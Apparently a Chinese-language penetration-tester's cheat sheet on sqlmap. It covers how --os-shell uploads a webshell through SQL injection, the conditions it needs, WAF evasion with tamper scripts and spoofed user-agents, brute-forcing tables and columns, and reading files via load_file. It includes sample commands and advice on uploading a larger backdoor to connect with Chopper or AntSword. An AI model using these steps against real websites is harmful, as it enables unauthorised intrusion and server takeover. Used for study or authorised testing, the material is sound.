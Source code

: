 ### sqlmap --os-shell的原理是什么?

```
参考连接:
	https://www.cnblogs.com/lcamry/p/5505110.html
1、sqlmap会先上传一个小马到网站更目录，大致内容为
limit 0,1 into outfile '路径/写入的木马名称' lines terminated by 跟上需要上传的内容的16进制
	
	该小马会进行一个php版本判断然后对上传的文件权限进行修改
2、sqlmap接着会通过上传的小马上传一个命令执行的文件，该文件中使用is_callable对php.ini配置文件中的disable_function内容进行了检测，如果某些命令函数被禁用，就是使用别的命令执行函数
```

条件:

```
（1）secure-file-priv 为空，不是为null，null表示mysql禁止导入和导出，如果为/tmp/也不行，这样只允许在mysql/tmp/目录下进行导入和导出

（2）网站必须是root权限

（3）攻击者需要知道网站的绝对路径

（4） magic_qutos_gpc为off，php主动转义的功能关闭，并且没有对传入的参数使用addslashes等函数进行转义
```

### sqlmap 扫描https网站

``` 
因为目标站是https 我加了--force-ssl参数 指定为https，但是显示https 连接出错。

因为sqlmap没办法忽略https证书 所以有两个解决方法
    1. 通过本地代理端口进行访问
    2. 通过搭建web，访问代理文件进行注入
    sqlmap.py -u "" -p xx --force-ssl --proxy http://127.0.0.1 4780 (通过本地代理端口)
```



#### 1、隐藏SqlMap指纹信息

**SqlMap默认user-agent为sqlmap.org，防止waf检测，可以自定义user-agent，或者使用随机user-agent**
```java
--user-agent="Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)"
--random-agent 这样会随机随机指定user-agent在这个文件(txt/user-agents.txt)里面
```
#### 2、使用tamper脚本指定绕过的类型
```java
--tamper=versionedkeywords.py   space2morecomment.py space2mssqlhash.py(常用的)
space2comment.py 		就是注释代替空格
space2morecomment.py	将空格用 /_/ 替代
versionedkeywords.py    对不是函数的关键字进行注释
space2mssqlhash.py		用 # 加一个换行符替换 payload 中的空格
```
#### 3、更改tamper脚本绕过waf


### 暴力破解列名
```java
暴力破解表名 参数：--common-tables
	当使用--tables无法获取到数据库的表时，可以使用此参数。
	通常是如下情况：
		1、MySQL数据库版本小于5.0，没有information_schema数据库。
		2、数据库是Microssoft Access，系统表MSysObjects是不可读的（默认）。
		3、当前用户没有权限读取系统中保存数据结构的表的权限。
		暴力破解的表在sqlmap/txt/common-tables.txt的文件中，可以对字典进行添加，使得字典更加强大。
		4、时间盲注、
		5、布尔盲注、
参数：--common-columns
	与暴力破解表名一样，暴力跑的列名在txt/common-columns.txt中。
	Xx  --common-columns  -T text -D testdb
	Xx  --common-tables -D testdb
	python27 sqlmap.py -u "http://192.168.244.131:8083/show.asp ?pkid=4820" -T admin --common-columns
```

### 命令执行
**调用shell**
**参数：
 sql-shell,--os-shell**

**--os-shell 执行系统命令**
**--os-shell的执行条件有四个**

```java
（1）网站必须是root权限/拥有file权限(因为会上传文件到网站根目录)
（2）攻击者需要知道网站的绝对路径
（3）GPC为off，php主动转义的功能关闭
（4）secure_file_priv参数不能为NULL状态

	--os-shell需要先执行 --udf-inject 上传两个脚本文件(udf、inject)(mysqludf提权sqlmap中也可以调用)
	
	--os-shell（需要指网站绝对路径(也就是说需要知道网站根目），
	使用--os-shell命令sqlmap会上传两个脚本文件
	(一个用来上传任意文件、一个用来执行os命令行)
	tmpugbftp.php ——>任意上传文件的后门，可以上传一句话(这个脚本和小马差不多)	
	tmpbdhnt.php  ——>用来执行命令的脚本（直接在sqlmap调用命令行）
	
	访问路径即可上马:	http://192.168.149.181:8081/tmpugbftp.php 
	上传大马(免杀)之后然后使用菜刀、冰蝎、蚁剑连接即可 (连接的时候POST参数要大写、POST[XX] 和传入的参数相同)
	如果无法上传(没法上传)  可以选择别的路径、一定需要是root权限，其次需要看系统上linux还是windows，是否有被降权
	#有的网站根目录是没有上传权限的我们可以将文件上传到 (图片上传目录、写日志的地方、数据库修改路径)
```
**--sql-shell 执行sql查询命令**
```java
  --sql-shell 执行sql查询命令，连写文件的权限都没有
	读文件   select load_file('/var/www/html/xycmsphp/index.php')
	连写文件的权限都没有，感觉没啥用
```
**--time-sec 设置注入延时时间**

```java
--time-sec 9 
python sqlmap.py -u "xxxx.com.php?id=1" --random-agent --technique=BT --sql-shell --time-sec 10
有的web程序会在多次错误访问后屏蔽所有请求，这样就导致之后所有的测试无法进行，绕过这个策略可以使用--safe-url，每隔一段时间去访问一个正常的页面。
```
**WAF绕过注入**
	注入点:http://192.168.159.1/news.php?id=1
	sqlmap -u http://192.168.159.1/news.php?id=1 -v 3 --dbs  --batch --tamper "space2morehash.py"
	space2hash.py   base64encode.py charencode.py
**改tamper过waf**

```java
更改tamper脚本，加载更改tamper脚本过狗扫描
未完待续.....
```


